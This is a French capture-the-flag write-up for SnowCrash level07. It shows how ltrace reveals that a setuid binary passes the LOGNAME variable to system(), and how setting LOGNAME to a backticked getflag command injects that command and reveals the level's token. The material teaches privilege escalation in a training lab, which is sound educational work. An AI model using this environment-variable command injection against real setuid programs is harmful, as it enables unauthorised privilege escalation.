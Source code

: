 Pour ce niveau nous avons un executable

```bash
level07@SnowCrash:~$ ls -la
total 24
...
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
...
```

Nous essayons de l'executer

```bash
level07@SnowCrash:~$ ./level07
level07
```

Pour essayer de comprendre ce qu'il se passe, nous utilons les commandes `strings` et `strace` sur cet executable.

Nous ne trouvons pas grand chose, a part les appels a getenv avec la commande `strings`.

Nous essayons la commande ltrace et la on trouve quelque chose d'interessant:

```bash
level07@SnowCrash:~$ ltrace ./level07
...
getenv("LOGNAME") = "level07"
...
system("/bin/echo level07 "level07
...
```

Nous comprenous que l'execute recupere la variable d'environement `LOGNAME` puis l'affiche avec `echo`.

Nous allons donc verifier notre environement pour voir si nous trouvons bien la variable `LOGNAME` qui doit avoir la valeur `level07`.

```bash
level07@SnowCrash:~$ env
...
LOGNAME=level07
...
```

Nous modifions cette variable:

```bash
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
```

Nous pouvons maintenant essayer d'executer level07

```bash
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Nous avons notre flag !

```bash
su level08
```